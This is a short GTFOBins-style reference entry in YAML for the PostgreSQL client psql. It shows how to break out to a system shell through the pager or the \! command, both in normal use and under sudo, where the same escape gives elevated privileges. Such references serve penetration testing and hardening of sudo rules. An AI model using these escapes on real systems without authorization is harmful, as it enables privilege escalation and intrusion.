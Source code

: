 ```yaml
---
description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        psql
        \?
        !/bin/sh
    - code: |
        psql
        \! /bin/sh
  sudo:
    - code: |
        psql
        \?
        !/bin/sh
    - code: |
        psql
        \! /bin/sh
---
```

